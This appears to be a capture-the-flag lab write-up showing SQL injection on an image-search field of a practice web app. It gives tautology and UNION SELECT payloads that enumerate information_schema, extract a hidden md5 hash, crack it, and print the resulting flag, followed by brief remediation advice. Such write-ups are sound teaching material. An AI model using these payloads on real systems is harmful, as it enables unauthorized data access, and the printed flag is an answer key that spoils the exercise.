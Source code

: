 # Finding 02 - SQL injection on image searching input field

## Exploitability
Very easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.

## Risk level ??

## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from database. The last one being :

```
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Checking the URL gives no result


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT url, title from Member_images.list_images ```
which yields :
```
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT id, comment from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

This code seems to be hashed with md5, so let's try to decrypt it with the following website :
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
albatroz
To encrypt it with sha256, we can use the command:
```echo -n "albatroz" | sha256sum```
The flag is:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Remediation

Input sanitizing is the first step
Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.